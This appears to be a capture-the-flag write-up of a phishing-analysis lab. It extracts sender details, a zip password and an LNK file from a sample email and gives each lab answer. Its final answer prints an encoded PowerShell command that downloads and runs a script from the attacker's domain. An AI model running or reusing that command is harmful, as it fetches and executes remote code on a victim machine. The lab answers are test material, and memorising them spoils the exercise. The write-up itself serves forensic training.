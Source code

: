 # Task 2: Email Analysis

## Scenario: The Boogeyman is Here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from other finance department employees. This indicates a highly targeted attack on the finance team. Upon checking the latest threat intelligence, the initial Tactics, Techniques, and Procedures (TTPs) used for the malicious attachment are attributed to a new threat group named **Boogeyman**, known specifically for targeting the logistics sector.

**Your task:** Analyze and assess the impact of this compromise, starting with the initial access vector.

---

## Investigation Guide: Analyzing `dump.eml`

Given the initial information, we know that the compromise started with a phishing email. Our first step is to analyze the `dump.eml` file, which is located in the `/home/ubuntu/Desktop/artefacts` directory within the provided VM.

There are two primary ways to analyze the email headers and rebuild the attached payload:

### Method 1: Manual Analysis (Command-Line Tools)

This method involves using basic command-line tools available in the VM to extract and decode information directly from the `.eml` file.

* **Tools:** `cat`, `grep`, `base64`, `sed`.
* **Process:** Manually analyze the contents of `dump.eml`. The encoded payload (often base64) is typically located at the bottom of the file. You will need to extract this string and decode it.

    ```bash
    # Sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
    # Example: cat <PAYLOAD_FILE> | base64 -d > Invoice.zip
    ```

### Method 2: Using Thunderbird (GUI)

This is often the simpler and more intuitive method for initial email review.

* **Tool:** Thunderbird (pre-installed in the VM).
* **Process:** Double-click the `dump.eml` file to open it directly via Thunderbird. The email's content, headers, and attachments will be presented in a user-friendly interface. The attachment can then be easily saved and extracted.

### Extracting Payload Information with `LNKParse3`

Once the payload from the encrypted archive is extracted (which often results in a `.LNK` file), you will use the `lnkparse` tool to extract detailed information about it.

* **Tool:** `lnkparse`
* **Command Example:**

    ```bash
    ubuntu@tryhackme:~ $ lnkparse <LNK_FILE>
    ```

---

## Questions and Analysis

Please provide your findings and explanations for the following questions:

### 1. What is the email address used to send the phishing email?

The email address can be found by accessing the 'dump.eml' file w/ Thunderbird, as shown in the image below.

![2025-06-17T15_37_20](https://github.com/user-attachments/assets/c7b5ba93-4af1-4df1-a3e7-39467c7a1823)

We see that the answer is: agriffin@bpakcaging.xyz

This image can also be used to answer questions 2 & 5.

---

### 2. What is the email address of the victim?

If we check the recipient of the email, we find that the answer is: julianne.westcott@hotmail.com

### 3. What is the name of the third-party mail relay service used by the attacker based on the `DKIM-Signature` and `List-Unsubscribe` headers?

To find this information with Thunderbird, we need to view the source and find the appropriate headers. 

![2025-06-17T15_37_24](https://github.com/user-attachments/assets/c31842ff-77f6-4119-bea3-e11771387754)

Once we do so, we find that the third-party mail relay service is: elasticemail

---

### 4. What is the name of the file inside the encrypted attachment?

To find this information, I downloaded the encrypted attachment to the artefacts directory and used the password provided in 'dump.eml' to extract the file. 

![image](https://github.com/user-attachments/assets/2788c98c-a595-43a0-8905-f2d7895dc68b)

Once finished, we see that the name of the file is: Invoice_20230103.lnk

---

### 5. What is the password of the encrypted attachment?

As previously mentioned, we can find this information in the 'dump.eml' file using Thunderbird. 

The answer is: Invoice2023!

---

### 6. Based on the result of the `lnkparse` tool, what is the encoded payload found in the `Command Line Arguments` field?

To find this information, we need to open up the terminal. From there we type the command, lnkparse <file_lnk>, as shown in the image below.

![image](https://github.com/user-attachments/assets/8d25a237-a0a3-40c3-9a98-3da95f44edd7)

Once we execute the command, we can find the answer in the output, as shown in the image below.

![image](https://github.com/user-attachments/assets/36778e16-0495-4127-977a-1911b3338083)

The answer is: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





---
